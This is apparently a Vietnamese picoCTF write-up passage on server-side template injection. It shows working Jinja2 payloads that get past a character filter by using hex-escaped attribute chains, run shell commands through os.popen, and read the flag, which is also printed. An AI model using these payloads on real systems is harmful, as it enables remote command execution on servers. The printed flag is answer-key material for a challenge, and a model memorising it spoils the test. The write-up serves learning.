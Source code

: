 Sau mấy tiếng đồng hồ tôi đã thử mọi cách nhưng nó vẫn báo đừng cố làm nó thất vọng tôi đã nghĩ đến nó đã filter hết rồi.
Tới đây tôi đã đi tìm được 1 payload trên hacktrick có thể vượt qua bộ lọc chúng.
### Khai thác
Bypassing most common filters `('.','_','|join','[',']','mro' and 'base')` by
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
`
![alt text](image-36.png)
Thành công rồi.
Tới đay thì cứ theo từng bước để lấy cờ thôi.
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}`
![alt text](image-37.png)
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
`
![alt text](image-38.png)
> Flags: picoCTF{sst1_f1lt3r_byp4ss_8b534b82}
### Kết luận
Những gì chúng tôi đã học được
> Khai thác lỗ hổng SSTI và vượt qua filter.

